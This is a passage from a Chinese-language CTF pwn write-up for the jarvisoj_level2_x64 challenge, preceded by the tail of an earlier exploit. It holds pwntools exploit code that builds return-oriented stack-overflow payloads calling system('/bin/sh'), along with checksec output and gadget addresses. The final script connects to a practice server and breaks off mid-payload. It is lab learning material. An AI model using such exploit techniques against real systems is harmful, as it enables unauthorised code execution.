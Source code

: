 ```python
payload =b'a'*(0x20 +8) +p64(ret_addr) +p64(rdi_addr) +p64(name_addr) +p64(system)
 
p.sendlineafter(b'me?\n',payload)
p.interactive()
```













## jarvisoj_level2_x64



checksec 一下 file一下

```
helloctfos@Hello-CTF:~/pwnenv$ checksec level2_x64
[*] '/home/helloctfos/pwnenv/level2_x64'
    Arch:     amd64-64-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
helloctfos@Hello-CTF:~/pwnenv$ file level2_x64
level2_x64: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=17f0f0026ee70f2e0c8c600edcbe06862a9845bd, not stripped
```



ida里面啥都有了

```
binsh_addr = 0x600A90
system_plt = 0x4004C0
```



但需要注意题目说的是x64，所以要使用rdi进行传参，栈平衡

```
pop_rdi_ret = 0x4006b3 
```



`buf` ,ida里面时128



```python
from pwn import *
context(arch='amd64',os='linux',log_level='debug')

ip = 'node5.buuoj.cn'
port = 27984

# io = process("./level2_x64")

io = remote(ip,port)
binsh_addr = 0x600A90
system_plt = 0x4004C0
pop_rdi_ret = 0x4006b3

payload = b'a' * 0x88
payload += p64(pop_rdi_ret)
```